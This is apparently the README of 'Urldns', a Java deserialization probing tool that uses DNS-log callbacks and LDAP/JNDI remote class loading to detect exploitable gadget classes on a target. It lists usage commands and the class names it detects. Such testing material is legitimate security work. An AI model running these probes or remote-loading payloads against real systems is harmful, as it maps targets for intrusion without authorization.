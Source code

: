 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
JRE8u20
winlinux
```

使用ldap模式的all将额外探测如下  
```
javax.el.ELProcessor
org.apache.naming.factory.BeanFactory
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.mvel2.sh.ShellSession
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory
com.ibm.ws.client.applicationclient.ClientJ2CCFFactory
com.ibm.ws.webservices.engine.client.ServiceFactory
```

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
